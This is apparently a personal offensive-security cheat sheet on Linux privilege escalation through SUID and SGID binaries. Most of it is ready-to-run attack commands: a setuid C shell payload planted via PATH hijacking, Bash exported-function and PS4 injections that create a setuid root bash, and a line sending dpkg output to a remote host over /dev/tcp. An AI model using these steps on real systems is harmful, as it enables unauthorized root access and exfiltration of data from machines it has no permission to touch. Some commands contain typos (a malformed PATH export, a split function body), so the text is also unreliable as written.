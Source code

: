 
SUID (Set-user Identification) and SGID (Set-group Identification), look for "s" set.
```bash
# sudo, SUID and SGID in the effort of Keeping It Simple Stupid
sudo -l
# -4000 for suid
# -2000 for sgid
find / -type f -perm -04000 -exec ls -la {} \; 2>/dev/null
find / -type f -perm -02000 -exec ls -la {} \;2>/dev/null
```

#### SUID Environment Variables

First find vulnerable binaries
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
**REQUIRES STRINGS!!**  consider encodings `-e` 
```bash
strings ../bin/<suid-env> # consider the function calls in the strings output
```
Inject-able `suidlib.c` or some other function somewhere else in the file system?
Inject a path to renamed "escalation.c" to required by the binary *.c
```bash
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c #escalation->service.c
gcc /tmp/service.c -o /tmp/service # compile with naming to match target 
export PATH=/tmp:$:PATH # inject a path 
/usr/local/bin/<suid-env>
```
Dodgy services in the strings output
Method #1
> Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path. 

function /usr/sbin/service() { 
```bash
cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;}
export -f /usr/sbin/service
```  
Method #2  
ONLY Bash versions <= 4.3!!  
> *When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements* 
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

#### SUID (symlinks)

Commence [[Search-Engine-Dorking]]   
```bash
dpkg -l | tee -a dpkg.toEnum
dpkg -l > /dev/tcp/$ip/$port # nc -lvnp $port > dpkg.toEnum
# check for specific program 
dpkg -l | grep <program>
```
